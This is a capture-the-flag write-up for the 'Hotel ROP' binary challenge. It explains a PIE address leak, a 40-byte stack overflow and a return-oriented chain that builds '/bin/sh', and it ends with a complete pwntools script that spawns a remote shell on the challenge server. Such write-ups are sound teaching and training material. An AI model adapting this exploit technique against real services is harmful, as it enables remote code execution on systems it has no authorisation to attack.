



# Hotel ROP

In this challenge we are given a binary, `hotel_rop` and a link to a server running this binary.

Running the file, we get the following output:
```
$ ./hotel_rop
Welcome to Hotel ROP, on main street 0x5617508ca36d
You come here often?
a
I think you should come here more often.
```

Running this multiple times, the number after "main street" keeps changing every time, but always ends with `36d`.
As it always starts with `0x55` or `0x56`, I can assume that this is an address in the program itself and not the stack or heap or libc.

Opening `hotel_rop` in Radare2 and seeking to `main`, I find immediately that `main` is at an offset of `0x136d`, so this address should be our `main` in the current program.

Checking the security of the binary, I saw that it is a PIE, but without a stack canary. Thus, it's a candidate for buffer overflows and ROP.

To find the offset for overflowing the buffer I just kept running `perl -e 'print "\x41"x40;'` with different multipliers until I got a segmentation fault. The correct offset is 40 bytes.

Looking at `california` (offset `0x11dc`) and `silicon_valley` (offset `0x1283`) in Radare2, I notice that they write something to various offsets of some memory address called `win_land` in byte increments. Looking more closely, in `california`  those bytes are "/", "b", "i" and "n", and in `silicon_valley` are "/", "s" and "h". As there is also a counter called `len` in the stack used for storing offsets, calling `california` then `silicon_valley` writes first `/bin`, then `/sh` to successive bytes in `win_land`, thus getting you the string `/bin/sh` to call `system("/bin/sh")` on.






Well, that was easy.

Looking at the disassembly of the function `loss` in Radare2, I see that towards the end it runs `system(win_land)` if you pass a few complicated tests on the arguments to the function:



However, you can skip all these complicated tests and go right to the `lea rdi, obj.win_land` instruction at `0x11c3`, which puts `win_land` into the `rdi` register and calls `system()` with that as the argument.


So, the plan is: get the base address of `main` from the first line, calculate the offsets of `california`, `silicon_valley` and `loss`, and use this address to make a rop chain running those in order. Here is the code:

```python
from pwn import *

p = remote('dctf1-chall-hotel-rop.westeurope.azurecontainer.io', 7480)

main_offset = 0x136d
california_offset = 0x11dc
silicon_valley_offset = 0x1283
system_offset = 0x11c3

p.recvuntil("street")
base = int(p.recvline().strip(), 16) - main_offset

california = p64(base + california_offset)
silicon_valley = p64(base + silicon_valley_offset)
system = p64(base + system_offset)

p.recvuntil("often?\n")
p.sendline((b'\x00'*40) + california + silicon_valley + system)
p.interactive()
```

This pops a shell, and the flag is at `flag.txt`.


*As a side note, if you fill the 40 junk bytes before your ROP chain with anything but zeroes, the program says "I think you should come here more often.", and if you fill it with zeroes, the program says "Oh! You are already a regular visitor!"*
